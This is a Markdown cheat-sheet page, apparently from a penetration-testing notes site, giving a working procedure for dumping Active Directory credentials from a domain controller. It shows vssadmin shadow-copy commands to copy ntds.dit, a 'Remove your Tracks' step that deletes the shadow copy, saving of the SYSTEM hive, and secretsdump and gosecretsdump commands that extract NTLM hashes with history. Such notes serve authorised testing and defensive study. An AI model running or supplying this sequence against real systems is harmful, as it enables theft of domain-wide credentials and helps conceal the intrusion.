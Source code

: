 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

### Step 1 - Create ShadowCopy

```plain
PS C:\temp> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit from ShadowCopy

```plain
PS C:\temp> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\temp\ntds.dit
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%attachments fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Step 3 - Remove your Tracks

```plain
PS C:\temp> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

### Step 4 - Save the SYSTEM file

Save the `SYSTEM` file.

```plain
reg SAVE HKLM\SYSTEM c:\temp\SYSTEM
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
